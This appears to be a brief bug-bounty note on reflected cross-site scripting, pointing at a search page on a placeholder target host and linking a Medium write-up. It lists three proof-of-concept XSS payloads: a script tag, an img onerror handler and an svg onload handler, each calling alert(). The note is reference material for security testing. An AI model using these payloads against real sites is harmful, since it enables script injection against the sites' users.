 # Cross-Site Scripting (XSS)
## Reflected XSS
1. ```https://www.target.net/inc.search_ney.php```>```<script>alert()</script>```,```<img src=x onerror=alert()>```,```<svg onload=alert()>``` >[link](https://medium.com/@osamaashraf1233/reflected-cross-site-scripting-in-search-functionality-d584593b966f)
